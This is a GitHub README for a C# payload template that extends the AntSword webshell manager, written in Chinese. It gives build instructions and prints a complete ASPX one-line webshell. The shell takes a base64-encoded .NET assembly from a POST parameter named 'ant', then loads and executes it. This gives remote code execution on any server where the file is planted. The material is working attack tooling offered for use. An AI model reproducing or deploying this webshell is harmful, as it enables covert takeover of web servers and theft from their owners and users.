# AntSword-Csharp-Template v1.0

中国蚁剑Csharp一句话Payload

编译环境：.net 2.0

适用范围：.net 2.0 及以上

## 编译

在build.py中替换你的csc路径后运行，即可在`./dist`目录下自动生成代码模板。

```
python3 build.py
```

编译完成后将`./dist/`目录下所有文件拷贝至`antSword-master/source/core/aspxcsharp/template/`下即可

## Shell

### shell.aspx

```
<%@ Page Language="c#"%>
<%
    String Payload = Request.Form["ant"];
    if (Payload != null)
    {
        System.Reflection.Assembly.Load(Convert.FromBase64String(Payload)).CreateInstance("Run").Equals(this);
    }

%>
```

## 更新日志

### v 1.0

1. release